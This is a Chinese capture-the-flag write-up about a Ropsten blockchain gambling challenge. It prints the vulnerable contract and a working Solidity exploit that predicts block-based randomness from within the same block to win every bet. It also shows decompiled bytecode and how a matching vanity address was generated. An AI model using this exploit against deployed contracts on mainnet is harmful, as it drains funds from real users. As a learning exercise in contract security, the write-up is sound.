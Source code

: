 # NewCoinGame

*Come to play with the new coingame in **0x38c0E2871D0757d883C4dd1944F04447ADD35FB3@ropsten** ! Trying to copy homework ? May be it's not so simple as you think~*

-----

第一次接触区块链题目，还是费了不少功夫……

首先 Chrome 安装个 MetaMask，弄个账户，怼一些免费的 ETH，然后去 remix.ethereum.org 写合约脚本，这就算是做好准备工作了。

首先观察合约可以看到：

```
contract VisaGame{
    
    using SafeMath for uint256;
    mapping(address => uint256) public bet_count;
    uint256 FUND = 100;
    uint256 MOD_NUM = 20;
    uint256 POWER = 100;
    uint256 SMALL_CHIP = 1;
    uint256 BIG_CHIP = 20;
    VisaToken  visa;
    WinnerList wlist;
    
    event FLAG(string b64email, string slogan);
    
    constructor(address _addr) public{
        visa=new VisaToken();
        wlist = WinnerList(_addr);
    }
    
    function initFund() public{
        if(bet_count[tx.origin] == 0){
            bet_count[tx.origin] = 1;
            visa.mint(tx.origin, FUND);
        }
    }
    
    function bet(uint256 chip) internal {
        bet_count[tx.origin] = bet_count[tx.origin].add(1);
        uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
        uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
        uint256 shark = seed_hash % MOD_NUM;
        uint256 lucky_hash = uint256(keccak256(abi.encodePacked(bet_count[tx.origin])));
        uint256 lucky = lucky_hash % MOD_NUM;
        if (shark == lucky){
            visa.transfer(address(this), tx.origin, chip.mul(POWER));
        }
    }
    
    function smallBlind() public {
        visa.transfer(tx.origin, address(this), SMALL_CHIP);
        bet(SMALL_CHIP);
    }
    
    function bigBlind() public {
        visa.transfer(tx.origin, address(this), BIG_CHIP);
        bet(BIG_CHIP);
    }
    
    function visaBalanceOf() public view returns(uint256) {
        return visa.visaOf(tx.origin);
    }

    function CaptureTheFlag(string b64email) public{
		require (visa.visaOf(tx.origin) > 18888);
        wlist.note(tx.origin,visaBalanceOf());
		emit FLAG(b64email, "Congratulations to capture the flag!");
	}
}
```

这不是送分题么？假如一直赌小的话期望也能到 18888 这个数额啊？我对题目理解有偏差？

突然就想偷个懒，题目说不能直接 copy homework 的话，那就说明有直接的 homework 可以借鉴，于是我就搜索了下「CTF ropsten」结果在第一篇文章就看到这题……

[如果生成随机数使用的种子使用的是有关当前区块的有关信息，那就是可以预测的，因为如果使用合约调用合约，那两个交易会被打包在一个区块内，那生成种子的所有信息，攻击合约都可以获得，攻击合约可以利用这些信息，生成完全一样的随机数。]: https://bcsec.org/index/detail/tag/2/id/401

于是写了这么一个合约：

```Solidity
pragma solidity ^0.4.24;

import  "./coingame.sol";

contract Hack {
    VisaGame target = VisaGame(0x38c0E2871D0757d883C4dd1944F04447ADD35FB3);
    address account = 0x3B649A3DC9d2A5E34a50CabfdbE56Ab6B1bB1010;
    function hack() public {
        uint now = target.bet_count(account);
        for (uint i = now+1; i <= now+20; i++) {
            uint256 seed = uint256(keccak256(abi.encodePacked(block.number)))+uint256(keccak256(abi.encodePacked(block.timestamp)));
            uint256 seed_hash = uint256(keccak256(abi.encodePacked(seed)));
            uint256 shark = seed_hash % 20;
            uint256 lucky_hash = uint256(keccak256(abi.encodePacked(i)));
            uint256 lucky = lucky_hash % 20;
            if (shark == lucky){
                target.bigBlind();
                break;
            } else {
                target.smallBlind();
            }
        }
    }
    
    function hack2() public {
        while (target.visaBalanceOf() <= 18888) {
            hack();
        }
    }
}
```

OK 钱也够了，调用 CaptureTheFlag 吧！

![Reverted](assets/reverted.png)

？？？？？？？？我不是达到要求了么？

仔细对照代码，发现合约和 homework 不同之处在于多了个  WinnerList，而且通过内部合约跟踪，可以知道负责计算 WinnerList 的合约在 0x662d262f79c82EC2E159B53Cbdef97e37BBF2b57。

然后我就不会了……

但！是！我无意在第一篇文章的第二道题看到了有用的信息！

[于是想到了可能 合约 WinnerList 给出的代码不准确，于是调用脚本去读取整整 WinnerList 合约的地址：]: https://bcsec.org/index/detail/tag/2/id/401

？？？？

照做，将合约反编译：

```Solidity
function 03b6eb88() public {
    require((_arg1 > (storage[0] + ((100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 0) & 1)) / 100000000000000000000000000000000000000000000000000000000000000))));
    if((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 12) & 1))) == 1000000000000000000000000000000000000000000000000000000000000000) {
        require(((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 12) & 1))) == 1000000000000000000000000000000000000000000000000000000000000000));
        return;
    } else {
        require(((-100000000000000000000000000000000000000000000000000000000000000 && (100000000000000000000000000000000000000000000000000000000000000 * (((1000000000000000000000000 * tx.origin) >> 13) & 1))) == 100000000000000000000000000000000000000000000000000000000000000));
        return;
    }
}
```

我还是看不懂啊……接着阅读 Homework，发现其可能是限制了用户地址的末 4 位需要特定字节才能通过，于是运用下社会工程学……

这题在我做之前已经有两人做过了，于是我翻了下成功执行这个合约的那些用户地址有什么共同点，这还真发现了：倒数第三第四位需要为 10。同时我还从他们的数据包中发现，他们此时钱的数量都大于 20000，比标准多出不少，额那我就模仿他们把 Flag 弄得多多的好了

好诶，打开 vanity-eth.tk，造个符合条件的地址，然后重新用这个地址跑一下脚本，最后 CaptureTheFlag

，成功！

（然后因为服务器发不了邮件等了出题人半天维修才收到邮件